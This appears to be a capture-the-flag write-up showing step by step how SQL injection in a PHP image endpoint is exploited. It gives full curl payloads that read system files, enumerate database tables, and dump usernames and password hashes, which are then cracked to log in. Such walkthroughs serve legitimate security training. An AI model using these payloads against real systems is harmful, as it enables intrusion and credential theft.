


# Navigation plan (3 points)

Ahoy, officer,

the chief officer was invited to a naval espresso by the captain and now they are both unfit for duty. The second
officer is very busy and he has asked you to find out where are we heading according to the navigation plan.

May you have fair winds and following seas!

The navigation plan webpage is available at http://navigation-plan.cns-jv.tcc.

## Hints

* Use VPN to get access to the webpage.
* Details should contain the desired information.

## Solution

If we open the navigation plan webpage we notice that it loads images using URLs
like `/image.png?type=data&t=targets&id=1`

Let's check what happens if we change the value of the first (`type`) param

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=xxx&t=targets&id=1"
<br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: Unknown column 'xxx' in 'field list' in /var/www/html/image.php:9
Stack trace:
#0 /var/www/html/image.php(9): mysqli_query(Object(mysqli), 'SELECT xxx FROM...')
#1 {main}
  thrown in <b>/var/www/html/image.php</b> on line <b>9</b><br />
```

We immediately see that the `image.php` script is running unsanitized SQL and will be prone to SQL injection. We also
see the beginning of the query.

Let's explore further

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=.&t=yyy&id=999"
<br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'FROM yyy JOIN files ON targets.id = files.id_target WHERE targets.id = 999' at line 1 in /var/www/html/image.php:9
Stack trace:
#0 /var/www/html/image.php(9): mysqli_query(Object(mysqli), 'SELECT . FROM y...')
#1 {main}
  thrown in <b>/var/www/html/image.php</b> on line <b>9</b><br />
```

Based on the responses above we can see that the server is
executing `SELECT {type} FROM {t} JOIN files ON targets.id = files.id_target WHERE targets.id = {id}`

Let's assume that the DB contains BLOBS (which the PHP code just treats as binary input) and let's try to retrieve e.g.
`/etc/passwd`

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=LOAD_FILE('/etc/passwd')--&t=targets&id=999"
<br />
<b>Deprecated</b>:  base64_decode(): Passing null to parameter #1 ($string) of type string is deprecated in <b>/var/www/html/image.php</b> on line <b>12</b><br />
```

It seems it's even simpler. The DB contains base64-encoded values which the code then converts to binary. Let's confirm

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64('Hello')--&t=targets&id=999"
Hello
```

That's great. Now we just need to retrieve some info about DB structure. The problem is that the query just returns one
field, so we need to concatenate all the information to one string.

The plan is to
execute `SELECT TO_BASE64(GROUP_CONCAT(table_name SEPARATOR ' ')) FROM information_schema.tables GROUP BY 'all'`.

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64%28GROUP_CONCAT%28table_name%20SEPARATOR%20%27%20%27%29%29&t=information_schema.tables%20GROUP%20BY%20%27all%27--&id=1"
ALL_PLUGINS APPLICABLE_ROLES CHARACTER_SETS CHECK_CONSTRAINTS COLLATIONS COLLATION_CHARACTER_SET_APPLICABILITY COLUMNS COLUMN_PRIVILEGES ENABLED_ROLES ENGINES EVENTS FILES GLOBAL_STATUS GLOBAL_VARIABLES KEYWORDS KEY_CACHES KEY_COLUMN_USAGE OPTIMIZER_COSTS OPTIMIZER_TRACE PARAMETERS PARTITIONS PLUGINS PROCESSLIST PROFILING REFERENTIAL_CONSTRAINTS ROUTINES SCHEMATA SCHEMA_PRIVILEGES SESSION_STATUS SESSION_VARIABLES STATISTICS SQL_FUNCTIONS SYSTEM_VARIABLES TABLES TABLESPACES TABLE_CONSTRAINTS TABLE_PRIVILEGES TRIGGERS USER_PRIVILEGES VIEWS CLIENT_STATISTICS INDEX_STATISTICS INNODB_FT_CONFIG GEOMETRY_COLUMNS INNODB_SYS_TABLESTATS SPATIAL_REF_SYS USER_STATISTICS INNODB_TRX INNODB_CMP_PER_INDEX INNODB_METRICS INNODB_FT_DELETED INNODB_CMP THREAD_POOL_WAITS INNODB_CMP_RESET THREAD_POOL_QUEUES TABLE_STATISTICS INNODB_SYS_FIELDS INNODB_BUFFER_PAGE_LRU INNODB_LOCKS INNODB_FT_INDEX_TABLE INNODB_CMPMEM THREAD_POOL_GROUPS INNODB_CMP_PER_INDEX_RESET INNODB_SYS_FOREIGN_COLS INNODB_FT_INDEX_CACHE INNODB_BUFFER_POOL_STATS INNODB_FT_BEING_DELETED INNODB_SYS_FOREIGN INNODB_CMPMEM_RESET INNODB_FT_DEFAULT_STOPWORD INNODB_SYS_TABLES INNODB_SYS_COLUMNS INNODB_SYS_TABLESPACES INNODB_SYS_INDEXES INNODB_BUFFER_PAGE INNODB_SYS_VIRTUAL user_variables INNODB_TABLESPACES_ENCRYPTION INNODB_LOCK_WAITS THREAD_POOL_STATS files targets users
```

It seems there is `users` table that looks interesting so let's explore its structure.
`SELECT GROUP_CONCAT(column SEPARATOR ' ')) FROM information_schema.columns WHERE TABLE_NAME='users' GROUP BY 'all'`

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64%28GROUP_CONCAT%28column_name%20SEPARATOR%20%27%20%27%29%29&t=information_schema.columns%20where%20table_name%3D%27users%27%20GROUP%20BY%20%27all%27--&id=1"
id username password rank active
```

Now we just need to select all the data using

```sql
SELECT TO_BASE64(CONCAT(GROUP_CONCAT(username SEPARATOR ' '), '|', GROUP_CONCAT(password SEPARATOR ' '), '|', GROUP_CONCAT(rank SEPARATOR ' ')))
users WHERE active = 1 GROUP BY 'all'--
```

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64%28CONCAT%28GROUP_CONCAT%28username%20SEPARATOR%20%27%20%27%29%2C%20%27%7C%27%2C%20GROUP_CONCAT%28password%20SEPARATOR%20%27%20%27%29%2C%20%27%7C%27%2C%20GROUP_CONCAT%28rank%20SEPARATOR%20%27%20%27%29%29%29&t=users%20WHERE%20active%20%3D%201%20GROUP%20BY%20%27all%27--&id=999"
captain officer|7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537 6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb|0 1
```

We're almost there. However, it seems we just have the password hash. Let's try checking if this hash is not already
cracked, e.g. using [CrackStation].



Now it's enough to log in to the navigation webpage as the captain and retrieve the flag which is hidden in target #4
details.



[CrackStation]: https://crackstation.net/
